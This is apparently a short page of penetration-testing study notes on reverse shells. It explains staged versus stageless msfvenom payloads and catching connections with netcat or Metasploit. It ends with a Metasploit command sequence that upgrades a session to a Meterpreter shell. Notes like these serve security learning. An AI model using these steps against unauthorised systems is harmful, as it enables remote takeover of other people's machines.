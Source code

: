 # Shells

![](<../../../../.gitbook/assets/image (25) (1).png>)

## Staged Payloads

A payload that is not enough to create a shell itself

It is a downloader  part that needs to download and execute the rest of the payload

It is much smaller

![](<../../../../.gitbook/assets/image (29) (1) (1).png>)

You're required to use a Metasploit listener in order to receive the shell connection

The listerner payload has to be exactly the same as the msfvenom payload

![](<../../../../.gitbook/assets/image (35) (1).png>)

![](<../../../../.gitbook/assets/image (26) (1).png>)

## Stageless Payloads

A standalone program that doesn't need anything additional, just the netcat listener on your computer

Its size is much bigger

![](<../../../../.gitbook/assets/image (37) (1).png>)

## Using Metasploit to Catch a Shell

![](<../../../../.gitbook/assets/image (34) (1) (1).png>)

![](<../../../../.gitbook/assets/image (36) (1) (1).png>)

### Upgrading to Meterpreter Shell

```
Ctrl+Z or background
use post/multi/manage/shell_to_meterpreter
set lhost [HOST]
set lport [PORT]
set session [SESSION ID]
run
```

